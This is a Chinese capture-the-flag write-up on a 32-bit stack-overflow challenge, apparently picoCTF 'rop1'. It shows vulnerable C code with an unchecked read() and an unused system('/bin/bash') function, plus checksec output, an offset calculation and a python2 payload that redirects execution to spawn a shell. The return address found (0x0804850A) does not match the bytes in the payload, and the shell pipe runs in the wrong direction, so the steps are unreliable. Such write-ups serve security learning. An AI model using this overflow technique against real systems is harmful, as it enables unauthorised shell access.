

# 代码审计
```

int not_called() {
	return system("/bin/bash");
}

void vulnerable_function() {
	char buf[128];
	read(STDIN_FILENO, buf, 256);
}

void be_nice_to_people() {
	// /bin/sh is usually symlinked to bash, which usually drops privs. Make
	// sure we don't drop privs if we exec bash, (ie if we call system()).
	gid_t gid = getegid();
	setresgid(gid, gid, gid);
}

int main(int argc, char** argv) {
        be_nice_to_people();
	vulnerable_function();
	write(STDOUT_FILENO, "Hello, World\n", 13);
}
```
可以看到main中会先弄好了id，然后调用```vulnerable_function()```这个函数

而在函数中看到，是一个普通的栈溢出，再查看程序保护

>➜  rop1 checksec rop1 
[*] '/home/mjr/Desktop/pico/rop1/rop1'  
    Arch:     i386-32-little  
    RELRO:    Partial RELRO  
    Stack:    No canary found  
    NX:       NX enabled  
    PIE:      No PIE (0x8048000)

几乎没有什么保护，直接干就是了，把```not_called()```的地址修改到```vulnerable_function()```函数的```saved-eip```中

## ```not_called()```地址
由于不开启PIE保护，函数代码段地址是固定的，在IDA中找到函数地址
>0x0804850A

## ```覆盖长度```
利用gdb调试一次，查看相应的偏移

可以计算相应的长度
>0xffffd07c-0xffffcff0=0x8c(140)

所以对应的payload应该是
>'a'*140+0x0804850A

# 利用
正常payload应该如下

>./rop1 | python2 -c "print 'a'*0x8c+'\xa4\x84\x04\x08'"

但是运行起来却不能getshell

根据给的hint，这个shell会在标准输入之后关闭

~~我也不知道是怎么回事啊！~~  输入如下

>./rop1 | python2 -c "print 'a'*0x8c+'\xa4\x84\x04\x08'";sh

getshell